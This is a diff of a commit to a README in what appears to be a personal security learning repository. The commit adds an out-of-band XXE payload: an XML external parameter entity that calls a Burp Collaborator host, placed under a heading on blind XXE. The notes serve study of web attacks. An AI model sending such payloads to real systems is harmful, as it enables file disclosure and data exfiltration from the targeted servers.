

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -517,6 +517,15 @@ For example, an application might allow users to upload images, and process or v
 
 # OUT OF BAND XXE
 
+when no parameter
+
+```python
+<?xml version="1.0" ?>
+<!DOCTYPE root [
+<!ENTITY % ext SYSTEM "http://59c99fu65h6mqfmhf5agv1aptgz6nv.burpcollaborator.net/x"> %ext;
+]>
+<r></r>
+```
 ```python
 
                                 POST /action HTTP/1.0
````
